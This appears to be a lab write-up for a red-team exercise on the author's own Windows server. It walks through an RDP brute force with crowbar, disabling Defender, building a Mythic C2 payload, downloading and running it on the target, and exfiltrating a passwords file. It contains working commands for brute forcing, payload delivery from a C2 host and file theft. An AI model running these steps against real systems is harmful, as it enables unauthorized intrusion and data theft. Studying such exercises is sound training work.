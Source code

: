 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    
    - Navigate to `Documents` and create a file named `passwords.txt`.
        
2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
        
    - Disable complexity requirements in _Local Group Policy Editor_.
        

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists sudo gunzip rockyou.txt.gz head -n50 rockyou.txt > ~/Desktop/Challenge-Wordlist.txt echo "Winter2024!" >> ~/Desktop/Challenge-Wordlist.txt`
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <Challenge-WIN-Haji-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
        
    - Password: `Winter2024!`
        

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<Challenge-WIN-Haji-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    

---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami ipconfig net user net group net user Administrator`

---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
    
- Disable Real-time protection and other security features.
    

---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<Challenge-Mythic-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo`
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
        
    - Output Format: **WinExe**
        
    - Commands: **Include All**
        
    - C2 Profile: **HTTP**
        
    - Callback Host: `http://<Challenge-Mythic-IP>`
        
    - Port: `80`
        
    - Payload Name: `ChallengeMythicPayload`
        

---

### 9. Hosting and Downloading Payload

1. **Download Payload**
    
    `wget <payload_download_link> --no-check-certificate mv <payload_name>.exe servicehost-haji.exe`
    
2. **Serve Payload over HTTP**
    
    `ufw allow 9999 python3 -m http.server 9999`
    
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
4. **Allow Port 80**
    
    `ufw allow 80`
    
5. **Execute Payload**
    
    `.\servicehost-haji.exe`
    
6. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo